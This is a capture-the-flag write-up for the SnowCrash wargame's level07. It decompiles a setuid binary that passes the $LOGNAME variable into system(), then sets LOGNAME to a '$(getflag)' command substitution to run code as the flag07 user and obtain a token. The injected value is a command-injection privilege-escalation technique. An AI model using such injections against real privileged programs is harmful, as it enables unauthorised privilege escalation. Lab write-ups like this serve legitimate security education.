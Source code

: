 # Level07

## Walkthrough

We check if there are some files in the home directory.

```bash
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ file level07 
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

Again, another script owned by **flag07** with the **setuid** bit flag. We import it with **SCP**.

```bash
host:~$ scp -P 4242 level07@localhost:level07 level07
```

We decompile the executable thanks to **dogbolt**.

[Link to the decompiled output](https://dogbolt.org/?id=c0805f22-ef97-46b0-83aa-91f95bdac7f7)

We check the `main()` function and figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case: **flag03**)
- gets a pointer to the value of the `$LOGNAME` environment variable
- uses it in a call to `asprintf()` in order to combine it with the `echo` command
- executes the result in a `system()` call

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // eax
  char *v5; // [esp+14h] [ebp-Ch] BYREF
  __gid_t v6; // [esp+18h] [ebp-8h]
  __uid_t v7; // [esp+1Ch] [ebp-4h]

  v6 = getegid();
  v7 = geteuid();
  setresgid(v6, v6, v6);
  setresuid(v7, v7, v7);
  v5 = 0;
  v3 = getenv("LOGNAME");
  asprintf(&v5, "/bin/echo %s ", v3);
  return system(v5);
}
```

The logic is quite symple: we have to write a command substitution into the `$LOGNAME` environment variable, which is gonna be executed during the `system()` call.  
If we don't do this, the `getflag` command will be run as **level07** instead of **flag07**.

```bash
level07@SnowCrash:~$ LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Resources

- [Command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)
